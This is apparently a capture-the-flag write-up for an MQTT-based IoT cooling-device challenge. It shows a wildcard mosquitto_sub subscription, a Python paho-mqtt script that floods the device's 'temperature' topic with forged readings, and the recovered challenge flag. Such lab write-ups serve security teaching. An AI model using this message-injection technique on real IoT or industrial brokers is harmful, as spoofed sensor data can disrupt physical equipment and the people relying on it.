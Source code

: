 
You have access to a cooling IoT cooling device running over mqtt protocol, the unit needs to maintain a cold temperature to run smoothly.

Remember a very high temperature can raise alerts.

have fun! ;)


Similar to part 1 connect to it using mosquito



```bash
mosquitto_sub -h 0.cloud.chals.io -p 24604 -t "#"

```

In this we need send continuous messages to  the device such as temperatures until we get the flag

i used the following python script

```python

import time
import paho.mqtt.client as mqtt

# MQTT connection details
broker = "0.cloud.chals.io"
port = 24604
topic = "temperature"  # Replace with the correct topic if needed

# Define the MQTT client
client = mqtt.Client()

# Callbacks for connection and publish status
def on_connect(client, userdata, flags, rc):
    if rc == 0:
        print("Connected to MQTT broker!")
    else:
        print(f"Connection failed with code {rc}")

def on_publish(client, userdata, mid):
    print(f"Message {mid} published.")

# Assign callbacks
client.on_connect = on_connect
client.on_publish = on_publish

# Connect to the MQTT broker
client.connect(broker, port)

# Start the loop to process received messages
client.loop_start()

# Function to publish the temperature value
def publish_temperature(value):
    print(f"Publishing temperature: {value}°C")
    client.publish(topic, str(value))  # Publishing to the specified topic

# Main loop to send temperature values from 1 to 100 continuously with a 2-second delay
try:
    while True:
        for temperature_value in range(1, 101):
            publish_temperature(temperature_value)
            time.sleep(2)  # 2-second delay
except KeyboardInterrupt:
    print("Exiting...")
    client.disconnect()
    client.loop_stop()

```

Then I got the flag

![[Pasted image 20240811020439.png]]

the flag is:
```bash
KPMG_CTF{kSV_KLx9SrtPlASUcjIopYj2pqM6PxUkmKQLSGMOwWZhvaumzuMpOj-tf24mB0TKI6WbBpqdEXYu4jzovC5HofkhQr-BfloP7eKrABIV}
```

